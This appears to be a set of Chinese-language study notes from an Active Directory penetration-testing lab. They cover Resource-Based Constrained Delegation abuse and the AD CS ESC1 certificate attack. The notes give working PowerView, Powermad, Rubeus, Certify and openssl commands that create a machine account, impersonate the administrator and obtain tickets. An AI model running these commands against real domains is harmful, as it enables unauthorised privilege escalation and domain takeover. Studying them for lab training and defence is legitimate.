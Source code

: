 
### Resource Based Constrained Delegation (RBCD)

假設一個 甲使用者對於 A 機器有 GenericWrite 權限，則可以幫它設定  ``
`msDS-AllowedToActOnBehalfOfOtherIdentity` 的值為 B Machine Account 權限。
`msDS-AllowedToActOnBehalfOfOtherIdentity` 的本質是一段 SDDL

想要確認 GenericWrite 可以用 PowerView 的 `Find-InterestingDomainACL` 或是 BloodHound 的 Node 的 `Transitive Object Control` 看到

如果我們有 B 機器的 Machine Account Hash，則能直接進入 A 機器，委派是指，允許 B 機器以 A 機器權限進入 A 機器。
如果我們手邊沒有任何機器，可以自己用 Domain Account 建立，需要先觀察 `ms-ds-MachineAccountQuota`

#### Power View
- 觀察 Domain 中的 RBCD 
	- `Get-DomainRBCD`
- 如果手邊沒有機器帳號，可以
	- `New-MachineAccount -MachineAccount MeowMachine -Password $(ConvertTo-SecureString 'MeowMeow12345!' -AsPlainText -Force)`
		- 需要 import Powermad
- 設定 RBCD
	- `Set-DomainRBCD -Identity A -DelegateFrom B$ -Verbose`
		- A 為 A 機器 Host Name，可以寫 FQDN
		- B 為 B 機器 Machine Account 要帶上 `$`
- 結束後再使用 `Get-DomainRBCD` 就會出現 A 允許 B 代表 A 
- 接著取 B 機器 Hash 就可以用 Rubeus 的 s4u 進入 A 機器 (例如用 http) 就能用 winrs
	- `Rubeus.exe s4u /user:dcorp-std365$ /aes256:5efe55e4be23a816bd6fb20ce516e4ffd1981772263655f28e761e94dbd3bcad /msdsspn:http/dcorp-mgmt.dollarcorp.moneycorp.local /impersonateuser:administrator /ptt`
- 清除
	- `Set-DomainRBCD -Identity dcorp-mgmt -Clear -Verbose`
#### AD Module (比較穩定)
-  設定
	- `Set-ADComputer dcorp-mgmt -PrincipalsAllowedToDelegateToAccount dcorp-std365$`
- 觀察
	- `Get-ADComputer dcorp-mgmt -Properties 'PrincipalsAllowedToDelegateToAccount'`
- 清除
	- `Set-ADComputer dcorp-mgmt -PrincipalsAllowedToDelegateToAccount $null`
## AD CS
- Enum
	- `Certify.exe find`
- 工具
	- `pip3 install certipy-ad`
### ESC1
- 條件
	- `msPKI-Certificates-Name-Flag`:`ENROLLEE_SUPPLIES_SUBJECT`
		- 申請新證書的用戶可以幫其他人申請用戶
	- `PkiExtendedKeyUsage`: `Client Authentication`
		- 生成的證書可以用來做身份驗證
	- `Enrollment Rights`: 可以操作的 User
- 使用方法
	- `Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:HTTPSCertificates /altname:Administrator`
		- 將內容存到 `cert.pem`
		- altname 的地方可以帶 domain name 例如 `mcorp\Administrator`
	- `openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx`
		- 任意輸入密碼：例如 `123`
	- `Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /domain:moneycorp.local /password:123 /ptt`
		- 申請 TGT
